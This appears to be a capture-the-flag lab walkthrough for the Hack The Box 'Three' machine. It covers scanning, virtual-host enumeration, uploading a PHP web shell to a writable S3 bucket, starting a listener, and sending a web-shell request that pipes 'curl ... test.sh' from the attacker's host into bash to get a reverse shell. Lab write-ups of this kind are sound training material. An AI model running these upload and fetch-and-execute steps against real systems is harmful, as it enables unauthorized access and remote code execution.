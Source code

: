 # 1.Port Scan
ip=10.129.227.248
`nmap -sC -sV -p- $ip`

![d2fdcc6d25130d8c240c32c34cc88182.png](../_resources/d2fdcc6d25130d8c240c32c34cc88182.png)




# 2.Thetoppers.htb connect

**http://$ip/#contact**

![a06297cc4c378bf0bdc1d3086dfef1ee.png](../_resources/a06297cc4c378bf0bdc1d3086dfef1ee.png)


`sudo vim /etc/hosts`

![d147ea4f9870238913393c1061383b89.png](../_resources/d147ea4f9870238913393c1061383b89.png)

# 3 Directory Enumeration
`gobuster vhost -w /home/kali/Three/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb` 

# 4 AWS Service
![1aea30a5c2183c350c7b3b33993409bf.png](../_resources/1aea30a5c2183c350c7b3b33993409bf.png)
 
 ##  Shellscript Upload


**http://thetoppers.htb/shell.php?cmd=id**

![4c7551d9f3c27222ada7ea4551fc8e3a.png](../_resources/4c7551d9f3c27222ada7ea4551fc8e3a.png)

## aws ls
`aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

![812a2beaf4ad8796f788ace6a3235e6c.png](../_resources/812a2beaf4ad8796f788ace6a3235e6c.png)

## use test.sh
`aws --endpoint=http://s3.thetoppers.htb s3 cp test.sh s3://thetoppers.htb`

## use shell.php
`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` 

![f18a34dc541f070b1b36276997d79d88.png](../_resources/f18a34dc541f070b1b36276997d79d88.png)

## AWS Connect
`python3 -m http.server 8080`

![e6f9b8a8d7fa3b12441ddf80f3e9efcc.png](../_resources/e6f9b8a8d7fa3b12441ddf80f3e9efcc.png)

`sudo nc -lvnp 443`

![1c61e34330c70c7a1b6aacafb604d235.png](../_resources/1c61e34330c70c7a1b6aacafb604d235.png)

## URL Request
**http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.8:8080/test.sh|bash**

## 5 AWS Connect&Flag get
![f3a8e39bfdd603bc65f601aacf16e792.png](../_resources/f3a8e39bfdd603bc65f601aacf16e792.png)

![d370a2101c42645345a50ede6eaaa65c.png](../_resources/d370a2101c42645345a50ede6eaaa65c.png)

